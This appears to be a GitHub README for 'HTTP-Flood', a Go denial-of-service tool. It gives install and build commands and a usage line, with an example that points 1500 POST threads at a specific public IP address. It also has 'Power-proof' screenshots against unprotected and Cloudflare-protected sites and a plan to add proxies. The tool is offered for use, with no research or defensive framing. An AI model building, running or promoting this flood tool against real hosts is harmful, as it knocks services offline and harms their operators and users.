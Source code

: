 # HTTP-Flood
Just simple httpflood

TODO:
Remove shity-code 
Add proxy

## Install
```sh
git clone https://github.com/QuangTruong05/ddos.git
cd HTTP-Flood
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
